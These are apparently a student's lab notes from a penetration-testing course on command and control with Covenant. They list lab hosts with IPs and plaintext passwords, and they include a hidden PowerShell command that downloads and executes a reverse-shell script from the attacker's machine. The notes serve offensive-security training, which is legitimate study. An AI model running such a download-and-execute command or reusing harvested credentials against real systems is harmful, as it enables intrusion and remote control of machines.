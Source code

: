 ### DC01
10.120.116.75

### W01
s.chisholm - FallOutBoy1!
10.120.116.10

### W02
m.seitz - Phi11i35@44
10.120.116.20

### Mail
192.168.3.5

# Introduction to Command and Control (C2)

- C2 is the combination of techniques and tools used by Pentesters and ethical hackers to persist and communicate in a target environment

Tools:
	
	Covenant - https://github.com/cobbr/Covenant
	
	Metasploit - https://github.com/rapid7/metasploit-framework




## Introduction to Covenant
```powershell
cd /opt/Covenant/Covenant
dotnet run

studentuser:Password123!
```

Grunts = user sessions

```powershell
# In Launchers > Host > 

# we can search For a rev shell, this will encode our command
# we send to the target windows to grab our revshell and execute it.

example command:
powershell -Sta -Nop -Window Hidden -Command "iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/<revshell.ps1')"

# Data > Credentials = this functionality will save the credentials we found a long the way
```

|Session| Id| Value|
|0 | >0| |
| medium | local | user |
| high | local| admin|
| system 0 | domain | admin|
| system >0  | DC | system admin|

